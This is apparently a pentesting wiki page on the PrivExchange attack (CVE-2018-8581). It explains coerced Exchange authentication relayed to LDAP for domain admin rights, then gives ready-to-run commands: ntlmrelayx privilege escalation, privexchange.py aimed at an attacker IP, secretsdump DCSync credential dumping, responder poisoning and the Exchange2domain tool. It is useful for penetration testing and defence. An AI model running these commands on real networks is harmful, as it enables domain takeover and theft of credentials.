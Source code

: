 ```yaml
---
description: CVE-2018-8581
---
```


# PrivExchange

## Theory

PrivExchange relay on the [PushSubscription coerced authentication](../mitm-and-coerced-authentications/pushsubscription-abuse.md), PushSubscription is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. **The coerced authentication is made over HTTP**, which is particularly powerful when doing [NTLM relay](broken-reference) ([because of the Session Signing and MIC mitigations](broken-reference)).&#x20;

As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](broken-reference)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](broken-reference) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Practice

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

{% tabs %}
{% tab title="Exploit - with creds" %}
First, start the NTLM relay that will escalate privileges

```bash
# NTLM relaying is used to relay connexion and give DCSync privileges
ntlmrelayx.py -t ldap://$DC --escalate-user $USER_TO_ESCALATE
```

Using [PrivExchange](https://github.com/dirkjanm/privexchange/), we can log in on Exchange Web Services and call the API. The user must have a mailbox to make the coerced authentication.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

We can now dump domain credentials throught DCSync

```bash
secretsdump.py $DOMAIN/$USER_TO_ESCALATE@$DC -just-dc
```
{% endtab %}

{% tab title="Exploit - without creds" %}
If you don't have any credentials, it is still possible to [relay the authentication](broken-reference) to make the API call. The [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) script can be used with ntlmrelayx.py to perform this attack. It uses NTLM Relaying with LLMNR / NBT-NS to relay captured credentials over the network.

Using the modified httpattack.py, we can use ntlmrelayx to perform this attack.

```bash
#Backup the old httpattack.py
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/
mv httpattack.py httpattack.py.old

#Replace it
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
#Edit the attacker_url parameter (the host to which Exchange will authenticate)
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py

#Build the env
cd /PATH/TO/impacket
virtualenv venv && source venv/bin/activate
pip install .

#Start relay
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```

We can now use LLMNR/NBT-NS/mDNS poisoning with responder, to capture credentials and relay them:

```bash
responder -i eth0
```
{% endtab %}

{% tab title="Exploit - Auto" %}
[Exchange2domain](https://github.com/Ridter/Exchange2domain) is a all in One tools of Privexchange exploit. You only need to open the web server port, so no high privileges are required.

```bash
python2.7 Exchange2domain.py -ah attackterip -ap listenport -u user -p password -d domain.com -th DCip MailServerip
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" %}
